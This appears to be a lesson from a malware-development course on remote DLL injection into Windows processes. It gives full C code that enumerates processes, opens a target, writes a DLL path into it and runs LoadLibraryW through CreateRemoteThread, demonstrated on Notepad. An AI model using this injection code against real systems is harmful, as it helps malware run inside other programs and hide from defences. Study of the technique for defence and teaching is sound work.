







Introduction
This module will demonstrate a similar method to the one that was previously shown with the local DLL injection except it will now be performed on a remote process.
Enumerating Processes
Before being able to inject a DLL into a process, a target process must be chosen. Therefore the first step to remote process injection is usually to enumerate the running processes on the machine to know of potential target processes that can be injected. The process ID (or PID) is required to open a handle to the target process and allow the necessary work to be done on the target process.
This module creates a function that performs process enumeration to determine all the running processes. The function GetRemoteProcessHandle will be used to perform an enumeration of all running processes on the system, opening a handle to the target process and returning both PID and handle to the process.
CreateToolhelp32Snapshot
The code snippet starts by using CreateToolhelp32Snapshot with the TH32CS_SNAPPROCESS flag for its first parameter, which takes a snapshot of all processes running on the system at the moment the function is executed.
// Takes a snapshot of the currently running processes
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);PROCESSENTRY32 Structure
Once the snapshot is taken, Process32First is used to get information for the first process in the snapshot. For all the remaining processes in the snapshot, Process32Next is used.
Microsoft's documentation states that both Process32First and Process32Next require a PROCESSENTRY32 structure to be passed in for their second parameter. After the struct is passed in, the functions will populate the struct with information about the process. The PROCESSENTRY32 struct is shown below with comments beside the useful members of the struct that will be populated by these functions.
typedef struct tagPROCESSENTRY32 {
DWORD dwSize;
DWORD cntUsage;
DWORD th32ProcessID; // The process ID
ULONG_PTR th32DefaultHeapID;
DWORD th32ModuleID;
DWORD cntThreads;
DWORD th32ParentProcessID; // Process ID of the parent process
LONG pcPriClassBase;
DWORD dwFlags;
CHAR szExeFile[MAX_PATH]; // The name of the executable file for the process
} PROCESSENTRY32;After Process32First or Process32Next populate the struct, the data can be extracted from the struct by using the dot operator. For example, to extract the PID use PROCESSENTRY32.th32ProcessID.
Process32First & Process32Next
As previously mentioned, Process32First is used to get information for the first process and Process32Next for all the remaining processes in the snapshot using a do-while loop. The process name that's being searched for, szProcessName, is compared against the process name in the current loop iteration which is extracted from the populated structure, Proc.szExeFile. If there is a match then the process ID is saved and a handle is opened for that process.
// Retrieves information about the first process encountered in the snapshot.
if (!Process32First(hSnapShot, &Proc)) {
printf("[!] Process32First Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
// Use the dot operator to extract the process name from the populated struct
// If the process name matches the process we're looking for
if (wcscmp(Proc.szExeFile, szProcessName) == 0) {
// Use the dot operator to extract the process ID from the populated struct
// Save the PID
*dwProcessId = Proc.th32ProcessID;
// Open a handle to the process
*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
if (*hProcess == NULL)
printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
break; // Exit the loop
}
// Retrieves information about the next process recorded the snapshot.
// While a process still remains in the snapshot, continue looping
} while (Process32Next(hSnapShot, &Proc));Process Enumeration - Code
BOOL GetRemoteProcessHandle(IN LPWSTR szProcessName, OUT DWORD* dwProcessId, OUT HANDLE* hProcess) {
// According to the documentation:
// Before calling the Process32First function, set this member to sizeof(PROCESSENTRY32).
// If dwSize is not initialized, Process32First fails.
PROCESSENTRY32 Proc = {
.dwSize = sizeof(PROCESSENTRY32)
};
HANDLE hSnapShot = NULL;
// Takes a snapshot of the currently running processes
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
if (hSnapShot == INVALID_HANDLE_VALUE){
printf("[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
// Retrieves information about the first process encountered in the snapshot.
if (!Process32First(hSnapShot, &Proc)) {
printf("[!] Process32First Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
// Use the dot operator to extract the process name from the populated struct
// If the process name matches the process we're looking for
if (wcscmp(Proc.szExeFile, szProcessName) == 0) {
// Use the dot operator to extract the process ID from the populated struct
// Save the PID
*dwProcessId = Proc.th32ProcessID;
// Open a handle to the process
*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
if (*hProcess == NULL)
printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
break; // Exit the loop
}
// Retrieves information about the next process recorded the snapshot.
// While a process still remains in the snapshot, continue looping
} while (Process32Next(hSnapShot, &Proc));
// Cleanup
_EndOfFunction:
if (hSnapShot != NULL)
CloseHandle(hSnapShot);
if (*dwProcessId == NULL || *hProcess == NULL)
return FALSE;
return TRUE;
}Microsoft's Example
Another process enumeration example is available for viewing here.
Case Sensitive Process Name
The code snippet above contains one flaw that was overlooked which can lead to inaccurate results. The wcscmp function was used to compare the process names, but the case sensitivity was not taken into account which means Process1.exe and process1.exe will be considered two different processes.
The code snippet below fixes this issue by converting the value in the Proc.szExeFile member to a lowercase string and then comparing it to szProcessName. Therefore, szProcessName must always be passed in as a lowercase string.
BOOL GetRemoteProcessHandle(LPWSTR szProcessName, DWORD* dwProcessId, HANDLE* hProcess) {
// According to the documentation:
// Before calling the Process32First function, set this member to sizeof(PROCESSENTRY32).
// If dwSize is not initialized, Process32First fails.
PROCESSENTRY32 Proc = {
.dwSize = sizeof(PROCESSENTRY32)
};
HANDLE hSnapShot = NULL;
// Takes a snapshot of the currently running processes
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
if (hSnapShot == INVALID_HANDLE_VALUE){
printf("[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
// Retrieves information about the first process encountered in the snapshot.
if (!Process32First(hSnapShot, &Proc)) {
printf("[!] Process32First Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
WCHAR LowerName[MAX_PATH * 2];
if (Proc.szExeFile) {
DWORD dwSize = lstrlenW(Proc.szExeFile);
DWORD i = 0;
RtlSecureZeroMemory(LowerName, MAX_PATH * 2);
// Converting each charachter in Proc.szExeFile to a lower case character
// and saving it in LowerName
if (dwSize < MAX_PATH * 2) {
for (; i < dwSize; i++)
LowerName[i] = (WCHAR)tolower(Proc.szExeFile[i]);
LowerName[i++] = '\0';
}
}
// If the lowercase'd process name matches the process we're looking for
if (wcscmp(LowerName, szProcessName) == 0) {
// Save the PID
*dwProcessId = Proc.th32ProcessID;
// Open a handle to the process
*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
if (*hProcess == NULL)
printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
break;
}
// Retrieves information about the next process recorded the snapshot.
// While a process still remains in the snapshot, continue looping
} while (Process32Next(hSnapShot, &Proc));
// Cleanup
_EndOfFunction:
if (hSnapShot != NULL)
CloseHandle(hSnapShot);
if (*dwProcessId == NULL || *hProcess == NULL)
return FALSE;
return TRUE;
}DLL Injection
A process handle to the target process has been successfully retrieved. The next step is to inject the DLL into the target process which will require the use of several Windows APIs that were previously used and some new ones.
VirtualAlloc except it allows for memory allocation in a remote process.Code Walkthrough
This section will walk through the DLL injection code (shown below). The function InjectDllToRemoteProcess takes two arguments:
Find LoadLibraryW Address
LoadLibraryW is used to load a DLL inside the process that calls it. Since the goal is to load the DLL inside a remote process rather than the local process, then it cannot be invoked directly. Instead, the address of LoadLibraryW must be retrieved and passed to a remotely created thread in the process, passing the DLL name as its argument. This works because the address of the LoadLibraryW WinAPI will be the same in the remote process as in the local process. To determine the address of the WinAPI, GetProcAddress along with GetModuleHandle is used.
// LoadLibrary is exported by kernel32.dll
// Therefore a handle to kernel32.dll is retrieved followed by the address of LoadLibraryW
pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");The address stored in pLoadLibraryW will be used as the thread entry when a new thread is created in the remote process.
Allocating Memory
The next step is to allocate memory in the remote process that can fit the DLL's name, DllName. The VirtualAllocEx function is used to allocate the memory in the remote process.
// Allocate memory the size of dwSizeToWrite (that is the size of the dll name) inside the remote process, hProcess.
// Memory protection is Read-Write
pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);Writing To Allocated Memory
After the memory is successfully allocated in the remote process, it's possible to use WriteProcessMemory to write to the allocated buffer. The DLL's name is written to the previously allocated memory buffer.
The WriteProcessMemory WinAPI function looks like the following based on its documentation
BOOL WriteProcessMemory(
[in] HANDLE hProcess, // A handle to the process whose memory to be written to
[in] LPVOID lpBaseAddress, // Base address in the specified process to which data is written
[in] LPCVOID lpBuffer, // A pointer to the buffer that contains data to be written to 'lpBaseAddress'
[in] SIZE_T nSize, // The number of bytes to be written to the specified process.
[out] SIZE_T *lpNumberOfBytesWritten // A pointer to a 'SIZE_T' variable that receives the number of bytes actually written
);Based on WriteProcessMemory's parameters shown above, it will be called as the following, writing the buffer (DllName) to the allocated address (pAddress), returned by the previously called VirtualAllocEx function.
// The data being written is the DLL name, 'DllName', which is of size 'dwSizeToWrite'
SIZE_T lpNumberOfBytesWritten = NULL;
WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten)Execution Via New Thread
After successfully writing the DLL's path to the allocated buffer, CreateRemoteThread will be used to create a new thread in the remote process. This is where the address of LoadLibraryW becomes necessary. pLoadLibraryW is passed as the starting address of the thread and then pAddress, which contains the DLL's name, is passed as an argument to the LoadLibraryW call. This is done by passing pAddress as the lpParameter parameter of CreateRemoteThread.
CreateRemoteThread's parameters are the same as that of the CreateThread WinAPI function explained earlier, except for the additional HANDLE hProcess parameter, which represents a handle to the process in which the thread is to be created.
// The thread entry will be 'pLoadLibraryW' which is the address of LoadLibraryW
// The DLL's name, pAddress, is passed as an argument to LoadLibrary
HANDLE hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);DLL Injection - Code Snippet
BOOL InjectDllToRemoteProcess(IN HANDLE hProcess, IN LPWSTR DllName) {
BOOL bSTATE = TRUE;
LPVOID pLoadLibraryW = NULL;
LPVOID pAddress = NULL;
// fetching the size of DllName *in bytes*
DWORD dwSizeToWrite = lstrlenW(DllName) * sizeof(WCHAR);
SIZE_T lpNumberOfBytesWritten = NULL;
HANDLE hThread = NULL;
pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
if (pLoadLibraryW == NULL){
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pAddress == NULL) {
printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
printf("[i] pAddress Allocated At : 0x%p Of Size : %d\n", pAddress, dwSizeToWrite);
printf("[#] Press <Enter> To Write ... ");
getchar();
if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten) || lpNumberOfBytesWritten != dwSizeToWrite){
printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
printf("[i] Successfully Written %d Bytes\n", lpNumberOfBytesWritten);
printf("[#] Press <Enter> To Run ... ");
getchar();
printf("[i] Executing Payload ... ");
hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
if (hThread == NULL) {
printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
printf("[+] DONE !\n");
_EndOfFunction:
if (hThread)
CloseHandle(hThread);
return bSTATE;
}Debugging
In this section, the implementation is debugged using the xdbg debugger to further understand what is happening under the hood.
First, run RemoteDllInjection.exe and pass two arguments, the target process and the full DLL path to inject inside the target process. In this demo, notepad.exe is being injected.

The process enumeration successfully worked. Verify that Notepad's PID is indeed 20932 using Process Hacker.

Next, xdbg is attached to the targeted process, Notepad, and check the allocated address. The image below shows that the buffer was successfully allocated.

After the memory allocation, the DLL name is written to the buffer.

Finally, a new thread is created in the remote process which executes the DLL.

Verify that the DLL was successfully injected using Process Hacker's modules tab.

Head to the threads tab in Process Hacker and notice the thread that is running LoadLibraryW as its entry function
